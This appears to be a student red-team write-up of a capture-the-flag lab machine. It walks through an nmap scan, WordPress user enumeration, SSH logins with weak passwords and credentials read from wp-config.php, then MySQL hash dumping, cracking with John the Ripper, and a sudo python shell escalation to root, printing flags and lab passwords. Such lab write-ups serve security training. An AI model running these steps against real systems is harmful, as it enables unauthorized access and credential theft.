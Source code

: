 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV -O 192.168.1.110
```

![](FinalProjectImages/nmapsSsVO.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 open ssh
  - Port 80 open http
  - Port 111 open rpcbind
  - Port 139 open netbios-ssn
  - Port 445 open netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Enumeration
  - Weak Passwords
  - Unsalted Password Hashes
  - Escalation Privilege/ Python Sudo Access


### Exploitation

 The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Enumerate the WordPress site using WPSCAN
```
$ wpscan --url http://192.168.1.110/wordpress -eu 
``` 
![](FinalProjectImages/wpscan.png) 

- There are two users. Michael and Steven

![](FinalProjectImages/enumerateusers.png)

 - Use the command ```ssh michael@192.168.1.110``` and the password 'michael' to gain access
 
 ![](FinalProjectImages/sshmichael.png)
 
 
 - By traversing the directories two flags are exposed:
   - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
     - **Exploit Used**
       - This flag was found in /var/www/html
       - `cat service.html`
       
   - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used**
       - This flag was found in /var/www/
       - `cat flag2.txt`

 ![](FinalProjectImages/htmldirectory.png)
 ![](FinalProjectImages/flag1.png)
 ![](FinalProjectImages/catflag2.png)
      
- From the /var/www/html/ directory `cd wordpress` to find the `wp-config.php` file
 - This is where the MySQL username and password is located. 
 
  ![](FinalProjectImages/wpconfig.png)
  
 - Use the found username: root and password: R@v3nSecurity
 - Inside mysql, the following commands lead to password hashes and a flag3.txt
  ``` bash
     show databases;
     use wordpress;
     show tables;
     select * from wp_users;
     #TODO: insert screenshot
  ```
   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
     - **Exploit Used**
       - Used the traversal of directories in mysql to obtain flag 3
       `select * from wp_posts`
       #TODO: include screenshot
 - After obtaining unsalted password hashes from 'wp_users', create the file 'wp_hashes.txt` containing the hashes to crack using john the ripper. 
 - john the ripper cracked the password for the user steven. The password is 'pink84'
 - Then, use the command `ssh steven@192.168.1.110' and the password 'pink84' to gain access to steven's user.
 - Check for permissions using `sudo -l`
 - steven can use sudo using python
 - Escalate privileges to gain root access and find flag 4
   - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
     - **Exploit Used**
       - Unsalted User Password Hash and Privilege Escalation
       - `sudo python -c 'import pty;pty.spawn("/bin/sh")`
